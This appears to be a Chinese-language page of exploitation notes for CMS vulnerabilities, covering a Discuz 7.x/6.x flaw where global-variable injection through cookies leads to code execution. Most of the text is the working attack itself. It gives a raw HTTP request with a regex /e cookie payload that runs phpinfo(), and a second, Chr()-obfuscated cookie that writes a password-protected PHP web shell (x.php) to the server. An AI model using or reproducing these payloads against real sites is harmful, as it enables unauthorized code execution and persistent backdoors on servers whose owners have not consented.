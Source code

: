 参考链接：https://www.yuque.com/docs/share/d5decfec-304c-468f-aa89-8073eca0ed03?#

https://github.com/lishang520/CVE-2022-24990

## CMS漏洞

### Discuz

一套通用的社区论坛软件系统

#### wooyun-2010-080723

> Discuz 7.x/6.x 全局变量防御绕过导致代码执行

* 漏洞详情
* 漏洞利用

直接找一个已存在的帖子，向其发送数据包，并在Cookie中增加`GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();`

```
GET /viewthread.php?tid=10&extra=page%3D1 HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Cookie: GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();
Connection: close
```

一句话:文件为x.php，密码为pwd

```
Cookie: GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=eval(Chr(102).Chr(112).Chr(117).Chr(116).Chr(115).Chr(40).Chr(102).Chr(111).Chr(112).Chr(101).Chr(110).Chr(40).Chr(39).Chr(120).Chr(46).Chr(112).Chr(104).Chr(112).Chr(39).Chr(44).Chr(39).Chr(119).Chr(39).Chr(41).Chr(44).Chr(39).Chr(60).Chr(63).Chr(112).Chr(104).Chr(112).Chr(32).Chr(64).Chr(101).Chr(118).Chr(97).Chr(108).Chr(40).Chr(36).Chr(95).Chr(80).Chr(79).Chr(83).Chr(84).Chr(91).Chr(112).Chr(119).Chr(100).Chr(93).Chr(41).Chr(63).Chr(62).Chr(39).Chr(41).Chr(59))
```
